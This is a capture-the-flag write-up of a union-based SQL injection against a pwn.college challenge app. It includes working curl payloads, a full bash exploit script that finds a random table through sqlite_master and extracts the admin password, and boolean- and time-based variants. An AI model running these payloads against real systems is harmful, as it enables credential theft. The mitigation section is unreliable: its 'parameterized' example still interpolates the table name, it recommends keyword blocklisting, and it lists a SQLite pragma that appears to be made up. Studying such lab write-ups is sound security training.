 ```markdown
# SQL Injection Challenge: Dynamic Table Name Exploitation

## Challenge Description
This challenge presents a web application with a randomized table name storing user credentials, requiring attackers to:
1. Discover the randomly-generated table name
2. Extract the flag stored in the admin's password field

## Vulnerability Analysis
**Type**: Union-based SQL Injection with Schema Discovery  
**CVSS Score**: 9.1 (Critical)  
**Vulnerable Parameter**: `query` GET parameter  
**Root Cause**: 
- Direct string interpolation in SQL query
- Excessive error/output disclosure
- Access to SQLite metadata tables

## Exploitation Walkthrough

### Step 1: Table Name Discovery
```bash
TABLE=$(curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%20LIKE%20%27users_%25%27--" | grep -o "users_[0-9]\+")
```

**Payload Breakdown**:
- `%22` - Closes the original string literal
- `UNION SELECT name FROM sqlite_master` - Queries metadata
- `WHERE type='table' AND name LIKE 'users_%'` - Filters target tables
- `--` - Comments out remainder

### Step 2: Flag Extraction
```bash
curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20$TABLE%20WHERE%20username%3D%27admin%27--" | grep -o "pwn.college{.*}"
```

**Payload Breakdown**:
- Uses discovered table name (`$TABLE`)
- Targets password field for admin user
- `grep` extracts flag from output

## Technical Details

### Resulting Queries
1. **Schema Discovery**:
   ```sql
   SELECT username FROM [REDACTED] WHERE username LIKE ""
   UNION SELECT name FROM sqlite_master 
   WHERE type='table' AND name LIKE 'users_%'--"
   ```

2. **Flag Extraction**:
   ```sql
   SELECT username FROM [REDACTED] WHERE username LIKE ""
   UNION SELECT password FROM users_[RANDOM] 
   WHERE username='admin'--"
   ```

## Impact Assessment
- Complete database schema disclosure
- Extraction of sensitive credentials
- Bypass of authentication mechanisms
- Potential for full database compromise

## Mitigation Strategies

1. **Secure Coding Practices**:
   ```python
   # Parameterized queries
   db.execute("SELECT username FROM {} WHERE username LIKE ?".format(table), (query,))
   ```

2. **Database Hardening**:
   ```sql
   PRAGMA trusted_schema=OFF;
   PRAGMA cell_extra_bytes=0;
   ```

3. **Input Validation**:
   - Reject queries containing SQL keywords
   - Implement allow-list for safe characters

4. **Output Restrictions**:
   - Sanitize displayed output
   - Limit returned columns/rows

## Key Lessons Learned
1. **Metadata Tables Are Dangerous**: SQLite's `sqlite_master` exposes critical schema information
2. **Dynamic Obfuscation Isn't Security**: Random table names don't prevent injection
3. **Union Attacks Are Powerful**: Can bypass many output limitations
4. **Defense Requires Depth**: Single protections are easily circumvented

## Full Exploit Script
```bash
#!/bin/bash
# Discover random table name
TABLE=$(curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20AND%20name%20LIKE%20%27users_%25%27--" | grep -o "users_[0-9]\+")

# Extract flag
curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20$TABLE%20WHERE%20username%3D%27admin%27--" | grep -o "pwn.college{.*}"
```

## Alternative Techniques
If UNION is blocked, consider:
```bash
# Boolean-based table discovery
curl "http://challenge.localhost/?query=\" AND (SELECT COUNT(*) FROM sqlite_master WHERE type='table' AND name LIKE 'users_%')=1--"

# Time-based data extraction
curl "http://challenge.localhost/?query=\" AND (SELECT CASE WHEN (SELECT substr(password,1,1) FROM $TABLE)='p' THEN randomblob(100000000) ELSE 0 END)--"
```
